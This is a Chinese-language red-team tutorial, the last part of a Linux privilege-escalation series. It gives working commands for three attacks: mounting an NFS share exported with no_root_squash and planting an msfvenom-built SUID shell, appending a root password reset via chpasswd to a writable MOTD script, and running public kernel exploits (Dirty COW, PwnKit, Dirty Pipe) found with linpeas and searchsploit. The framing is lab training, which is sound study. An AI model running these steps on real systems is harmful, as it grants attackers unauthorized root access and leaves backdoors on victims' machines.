

# 前言：

这是红队笔记提权精讲中的第六部分，也是最后一部分

本章进入提权的“深水区”。我们将探讨如何利用系统底层服务的配置失误，以及如何使用公开的 CVE 漏洞代码直接攻击 Linux 内核。


# 实战：

情况一：NFS 共享提权 (Net file system)
---------------------------------

**利用场景**：目标机器开启了 NFS (网络文件系统) 服务，且配置了极度危险的选项 `no_root_squash`。

**原理**：默认情况下，NFS 客户端的 root 用户连接服务端时会被降权（Squash）为普通用户。但如果开启了 `no_root_squash`，**客户端的 root 用户在挂载的共享目录中将拥有服务端的 root 权限**。

**提权逻辑**：在我的 **攻击机** 上以 root 身份挂载你的共享目录 -> 把我 **攻击机** 的 `/bin/bash` 拷贝进去并赋予 SUID -> 靶机本地运行该 bash。


**实战步骤：**

1. **探测 NFS 配置**：在靶机查看 `/etc/exports`，如果看到 `no_root_squash` 字样：例如 `/tmp *(rw,sync,no_root_squash,no_subtree_check)`就说明可以打NFS
   
   
   

2. **在攻击机挂载共享目录**：
   
   ```bash
   #先切换到root用户
   sudo su
   mkdir /tmp/nfs
   mount -o rw,vers=3 目标IP:/tmp /tmp/nfs
   ```

3. **植入 SUID 后门**：在攻击机上，将自己的恶意文件拷贝进去，并以 root 身份赋权：
   
   ```bash
   msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
   chmod +xs /tmp/nfs/shell.elf
   ```

4. **回到靶机触发**：进入靶机的 `/tmp` 目录，运行刚刚植入的后门：
   
   ```bash
   cd /tmp
   ./shell.elf
   ```
   
   

情况二：利用 MOTD 机制提权
----------------

**利用场景**：MOTD (Message of The Day) 登录横幅脚本配置不当。

**实战操作**：

1. **寻找可写脚本**：`find /etc/update-motd.d/ -writable`

2. **注入命令**：`echo "echo 'root:password123' | chpasswd" >> /etc/update-motd.d/00-header`

3. **触发执行**：再次通过 SSH 登录，脚本运行后 `su root` 即可。

情况三：底层内核漏洞提权 (Kernel Exploit)
---------------------------------

当上述所有配置枚举都失败，且 `uname -a` 显示内核版本存在已知 CVE 漏洞时使用。

配合**linux_exploit_suggester/linpeas** + **searchsploit**来打

### 常用的漏洞

1. **Dirty COW (脏牛, CVE-2016-5195)**：针对 2.6.22 < 4.8.3。

2. **PwnKit (CVE-2021-4034)**：针对 `pkexec` 工具，稳定性极高。

3. **Dirty Pipe (脏管, CVE-2022-0847)**：针对 5.8+ 内核。

用法都在对应脚本里会给出
